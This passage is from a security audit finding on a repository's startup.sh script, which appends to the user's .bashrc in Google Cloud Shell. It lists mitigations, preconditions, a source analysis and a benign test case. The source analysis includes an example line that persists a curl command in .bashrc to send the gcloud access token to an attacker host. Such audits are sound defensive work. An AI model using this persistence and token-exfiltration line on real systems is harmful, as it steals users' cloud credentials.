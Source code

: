 - **Vulnerability Rank:** High

- **Currently Implemented Mitigations:**
    - None. The project does not currently implement any mitigations against malicious modification of `startup.sh`.

- **Missing Mitigations:**
    - **Avoid modifying `.bashrc`**: The most effective mitigation is to avoid modifying the user's `.bashrc` file altogether. If modifying the `PATH` is necessary, consider alternative methods that do not involve persistent changes to shell configuration files, or provide clear instructions for manual configuration instead of automated modification.
    - **Warning to user**: If modifying `.bashrc` is deemed absolutely necessary, implement a clear warning message in `startup.sh` that informs the user about the `.bashrc` modification and the potential security implications, especially when using scripts from untrusted sources.
    - **Input validation (less relevant here)**: While input validation on the project ID might slightly reduce the attack surface in other parts of the script, it does not directly mitigate the `.bashrc` injection vulnerability.

- **Preconditions:**
    - The victim user must be socially engineered into using a forked and maliciously modified version of the repository.
    - The victim user must execute the `startup.sh` script from the malicious repository in their Cloud Shell.

- **Source Code Analysis:**
    - File: `/code/startup.sh`
    - Line:
    ```bash
    echo "PATH=\$PATH:$HOME/.local/bin" >> $HOME/.bashrc
    ```
    - This line appends the specified `PATH` modification command to the user's `.bashrc` file.
    - A malicious actor can replace this line with any arbitrary command injection, for example:
    ```bash
    echo "curl -X POST -d \$(gcloud auth print-access-token) https://attacker.example.com/steal-token" >> $HOME/.bashrc
    ```
    - When the user executes the modified `startup.sh`, this malicious `echo` command will append the command to exfiltrate the access token to the attacker's server to `.bashrc`.
    - Upon next Cloud Shell startup, `.bashrc` is sourced, and the malicious command will be executed, sending the access token to the attacker.

- **Security Test Case:**
    1. Fork the repository on GitHub.
    2. Edit the `/code/startup.sh` file in the forked repository. Replace the line `echo "PATH=\$PATH:$HOME/.local/bin" >> $HOME/.bashrc` with `echo "echo 'Vulnerable' > /tmp/vulnerable.txt" >> $HOME/.bashrc`. Commit the change.
    3. Create a new Google Cloud project for testing purposes.
    4. In your browser, navigate to the forked repository on GitHub.
    5. Click the "Open in Cloud Shell" button in the README.md of your forked repository. This will open a Cloud Shell session with the code from your forked repository.
    6. In the Cloud Shell terminal, execute the command: `source startup.sh <your-project-id>` (replace `<your-project-id>` with the ID of your test project).
    7. Close the current Cloud Shell session by typing `exit` and pressing Enter.
    8. Open a new Cloud Shell session.
    9. In the new Cloud Shell session, check if the file `/tmp/vulnerable.txt` exists and contains the text "Vulnerable" by running: `cat /tmp/vulnerable.txt`.
    10. If the file exists and contains "Vulnerable", the vulnerability is confirmed. This demonstrates that arbitrary commands can be injected into `.bashrc` via a modified `startup.sh` and will be executed in subsequent Cloud Shell sessions.